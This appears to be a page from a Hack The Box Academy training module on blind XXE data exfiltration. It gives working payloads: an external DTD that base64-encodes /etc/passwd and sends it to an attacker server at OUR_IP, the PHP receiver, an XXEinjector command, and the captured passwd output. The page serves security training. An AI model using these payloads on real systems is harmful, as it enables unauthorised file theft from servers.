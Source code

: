 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1207
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1207
// Section Title: Blind Data Exfiltration
// Page Title: Web Attacks
// Page Number: 16
-->

# Blind Data Exfiltration

**Module Name:** Web Attacks **Page Number:** 16

#### WEB ATTACKS

# Blind Data Exfiltration

## Out-of-band Data Exfiltration

``` xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

``` php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

``` shell-session
[!bash!]$ vi index.php # here we write the above PHP code
[!bash!]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg)

``` shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

## Automated OOB Exfiltration

``` shell-session
[!bash!]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

``` http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

``` shell-session
[!bash!]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

``` shell-session
[!bash!]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

# 

# 

#### Questions

####